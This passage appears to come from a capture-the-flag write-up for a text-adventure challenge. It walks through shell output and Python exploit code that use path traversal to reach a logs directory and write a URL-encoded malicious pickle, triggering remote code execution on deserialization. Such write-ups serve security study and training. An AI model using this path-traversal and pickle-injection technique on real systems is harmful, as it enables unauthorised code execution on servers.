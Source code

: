 ```shell
```

A file called `logs-amon.item` was created. Attempting to get the item prints an error as expected:

```shell
[logs] $ get logs-amon
Traceback (most recent call last):
  File "/opt/wonderland/down-the-rabbithole/rabbithole.py", line 363, in validate_stream
    for op, arg, pos in ops:
  File "/usr/lib/python3.8/pickletools.py", line 2285, in _genops
    raise ValueError("at position %s, opcode %r unknown" % (
ValueError: at position 0, opcode b'H' unknown

Seems like that item may be an illusion.
[logs] $
```

To confirm that URL encoded messages work:

```shell
[logs] $ blowsmoke amon2 %41%42%43%44
Smoke bellows from the lips of amon2 to form the words, "%41%42%43%44."
Curling and curling...
The words float up high into the air and eventually disappate.
[logs] $ read logs-amon2
You read the writing on the note:
ABCD
[logs] $
```

The exploit so far remains the same as in stage 1 but we need to include retrieving the
`golden-hookah.`

```python
    # Teleport to the location of the golden-hookah.
    log.info('Teleporting to under-a-giant-mushroom to get the golden-hookah...')
    mushroom = ('sea-of-tears/along-the-rolling-waves/a-sandy-shore/into-the-woods/further-into-'
                'the-woods/nearing-a-clearing/clearing-of-flowers/under-a-giant-mushroom')
    c.sendline('teleport ' + mushroom)
    c.get(b'golden-hookah')
```

Next, we need to teleport to the `/opt/wonderlands/logs` directory, generate the Python pickle
payload with the bypass, encode where appropriate, and trigger the write.

```python
    # Teleport to /opt/wonderland/logs/
    log.info('Teleporting to /opt/wonderland/logs')
    c.sendline(b'teleport ../../../../../../opt/wonderland/logs')
    c.get_until_prompt()

    # Generate the payload and write an item to the logs directory.
    log.info('Generating pickle RCE payload...')
    payload = quote(pickle.dumps(Exploit()), safe='').encode('ascii')
    random_filename = str(uuid.uuid4()).encode('ascii')
    log.info('Writing payload to {}.item'.format(random_filename.decode('ascii')))
    c.sendline(b'blowsmoke ' + random_filename + b'.item ' + payload)
    c.get_until_prompt()
```
